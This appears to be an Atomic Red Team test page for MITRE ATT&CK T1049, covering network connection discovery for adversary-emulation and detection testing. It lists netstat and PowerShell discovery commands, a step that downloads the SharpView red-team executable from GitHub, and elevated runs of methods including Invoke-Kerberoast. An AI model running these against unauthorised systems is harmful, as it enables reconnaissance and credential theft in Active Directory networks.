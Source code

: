 ```yaml
---
tags: [T1049, atomic_test]
filename: "[[T1049 - System Network Connections Discovery]]"
---
```

# T1049 - System Network Connections Discovery

## Atomic Test #1 - System Network Connections Discovery
Get a listing of network connections.

Upon successful execution, cmd.exe will execute `netstat`, `net use` and `net sessions`. Results will output via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** 0940a971-809a-48f1-9c4d-b1d785e96ee5






#### Attack Commands: Run with `command_prompt`! 


```cmd
netstat
net use
net sessions
```






<br/>
<br/>

## Atomic Test #2 - System Network Connections Discovery with PowerShell
Get a listing of network connections.

Upon successful execution, powershell.exe will execute `get-NetTCPConnection`. Results will output via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** f069f0f1-baad-4831-aa2b-eddac4baac4a






#### Attack Commands: Run with `powershell`! 


```powershell
Get-NetTCPConnection
```






<br/>
<br/>

## Atomic Test #3 - System Network Connections Discovery FreeBSD, Linux & MacOS
Get a listing of network connections.

Upon successful execution, sh will execute `netstat` and `who -a`. Results will output via stdout.

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 9ae28d3f-190f-4fa0-b023-c7bd3e0eabf2






#### Attack Commands: Run with `sh`! 


```sh
netstat
who -a
```




#### Dependencies:  Run with `sh`!
##### Description: Check if netstat command exists on the machine
##### Check Prereq Commands:
```sh
if [ -x "$(command -v netstat)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
echo "Install netstat on the machine."; exit 1;
```




<br/>
<br/>

## Atomic Test #4 - System Discovery using SharpView
Get a listing of network connections, domains, domain users, and etc.  
sharpview.exe located in the bin folder, an opensource red-team tool.
Upon successful execution, cmd.exe will execute sharpview.exe <method>. Results will output via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** 96f974bb-a0da-4d87-a744-ff33e73367e9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| SharpView_url | sharpview download URL | url | https://github.com/tevora-threat/SharpView/blob/b60456286b41bb055ee7bc2a14d645410cca9b74/Compiled/SharpView.exe?raw=true|
| SharpView | Path of the executable opensource redteam tool used for the performing this atomic. | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;SharpView.exe|
| syntax | Arguements method used along with SharpView to get listing of network connections, domains, domain users, and etc. | string | "Invoke-ACLScanner", "Invoke-Kerberoast", "Find-DomainShare"|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$syntaxList = #{syntax}
foreach ($syntax in $syntaxList) {
#{SharpView} $syntax -}
```




#### Dependencies:  Run with `powershell`!
##### Description: Sharpview.exe must exist on disk at specified location (#{SharpView})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{SharpView}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{SharpView}") -ErrorAction ignore | Out-Null
Invoke-WebRequest #{SharpView_url} -OutFile "#{SharpView}"
```




<br/>
